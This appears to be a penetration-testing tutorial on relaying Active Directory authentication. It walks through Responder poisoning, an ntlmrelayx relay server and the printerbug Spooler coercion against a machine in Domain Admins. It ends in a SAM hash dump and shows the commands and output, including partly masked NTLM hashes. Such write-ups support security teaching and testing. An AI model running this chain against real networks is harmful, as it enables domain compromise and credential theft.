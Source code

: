in this tutorial there is a spesific configuration exploited. During search of "Domain Admins" group i found one of the server machine is member of this group. So we will use spoolsample to force this machine to authenticate our server and relay request to another machine. Normally there should be authentication error but since machine is member of "Domain Admins" authentication succeed.

Responder HTTP and SMB server should be disabled


	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ cat /etc/responder/Responder.conf 
	[Responder Core]

	; Servers to start
	SQL = On
	SMB = Off
	RDP = On
	Kerberos = On
	FTP = On
	POP = On
	SMTP = On
	IMAP = On
	HTTP = Off
	HTTPS = On
	DNS = On
	LDAP = On
	.......

Start Responder

	┌──(kali㉿kali)-[~/krbrelayx]
	└─$ sudo responder -I eth0 -rv                                                                                                                                130 ⨯
											 __
	  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
	  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
	  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
					   |__|

			   NBT-NS, LLMNR & MDNS Responder 3.0.6.0

	  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
	  To kill this script hit CTRL-C


	[+] Poisoners:
		LLMNR                      [ON]
		NBT-NS                     [ON]
		DNS/MDNS                   [ON]

	[+] Servers:
		HTTP server                [OFF]
		HTTPS server               [ON]
		WPAD proxy                 [OFF]
		Auth proxy                 [OFF]
		SMB server                 [OFF]
		Kerberos server            [ON]
		SQL server                 [ON]
		FTP server                 [ON]
		IMAP server                [ON]
		POP3 server                [ON]
		SMTP server                [ON]
		DNS server                 [ON]
		LDAP server                [ON]
		RDP server                 [ON]
		DCE-RPC server             [ON]
		WinRM server               [ON]

	[+] HTTP Options:
		Always serving EXE         [OFF]
		Serving EXE                [OFF]
		Serving HTML               [OFF]
		Upstream Proxy             [OFF]

	[+] Poisoning Options:
		Analyze Mode               [OFF]
		Force WPAD auth            [OFF]
		Force Basic Auth           [OFF]
		Force LM downgrade         [OFF]
		Fingerprint hosts          [OFF]

	[+] Generic Options:
		Responder NIC              [eth0]
		Responder IP               [RelayServer]
		Challenge set              [random]
		Don't Respond To Names     ['ISATAP']

	[+] Current Session Variables:
		Responder Machine Name     [.....]
		Responder Domain Name      [...]
		Responder DCE-RPC Port     [....]

	[+] Listening for events...                   


Start Relay Server

	┌──(impacket)─(kali㉿kali)-[~/ntlmrelay-adcs/impacket]
	└─$ examples/ntlmrelayx.py -t TargetMachine.Domain_name.intra -smb2support              
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	
	
Exploit Spooler vulnerability and for to authenticate your relay server

	┌──(kali㉿kali)-[~/krbrelayx]
	└─$ python3 printerbug.py Domain_name.intra/User@VulnerableMachine.Domain_name.intra RelayServer 
	[*] Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	Password:
	[*] Attempting to trigger authentication via rprn RPC at VulnerableMachine.Domain_name.intra
	[*] Bind OK
	[*] Got handle
	RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
	[*] Triggered RPC backconnect, this may or may not have worked
	

Check NTLM Relay Server

	┌──(impacket)─(kali㉿kali)-[~/ntlmrelay-adcs/impacket]
	└─$ examples/ntlmrelayx.py -t TargetMachine.Domain_name.intra -smb2support              
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from Domain_name/VulnerableMachine$@VulnerableMachineip controlled, attacking target smb://TargetMachine.Domain_name.intra
	[*] Authenticating against smb://TargetMachine.Domain_name.intra as Domain_name/VulnerableMachine$ SUCCEED
	[*] SMBD-Thread-4: Connection from Domain_name/VulnerableMachine$@VulnerableMachineip controlled, but there are no more targets left!
	[*] Service RemoteRegistry is in stopped state
	[*] Starting service RemoteRegistry
	[*] Target system bootKey: 0x35f88c89**********68
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51*****435b51404ee:a68b*a7a**800f96bda2::*:*
	Guest:501:aad3b435b51404e********4ee:31d6cfe0d*16ae9**********e0c089c0:::
	DefaultAccount:503:aad3b435b51404ee********1404ee:31d6cfe********73c59d7e0c089c0:::
	SecretAdmin:1002:aad3b435b51404********04ee:adeb2001********f25bebc6540f:::
	[*] Done dumping SAM hashes for host: TargetMachine.Domain_name.intra
	[*] Stopping service RemoteRegistry
                                                                         